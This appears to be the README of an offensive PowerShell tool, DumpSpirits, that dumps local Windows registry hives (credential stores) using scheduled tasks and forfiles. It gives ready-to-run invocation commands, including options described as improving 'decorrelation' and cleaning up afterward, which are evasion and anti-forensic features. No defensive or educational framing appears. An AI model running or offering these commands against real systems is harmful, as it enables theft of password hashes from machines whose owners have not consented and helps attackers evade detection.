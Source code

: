 # DumpSpirits
Dump local hives using scheduled tasks and forfiles. 

```powershell
#Import Module
Import-Module .\DumpSpirits.ps1

#Start scheduled tasks with proxy execution (wait 1 minute) - No Clean, Better for Decorrelation
Invoke-DumpSpirits

#Cleaner :
Invoke-DumpSpirits -Cleaner

#Start the scheduled tasks immediately (tasks will be cleaned)
Invoke-DumpSpirits -Hurry

```
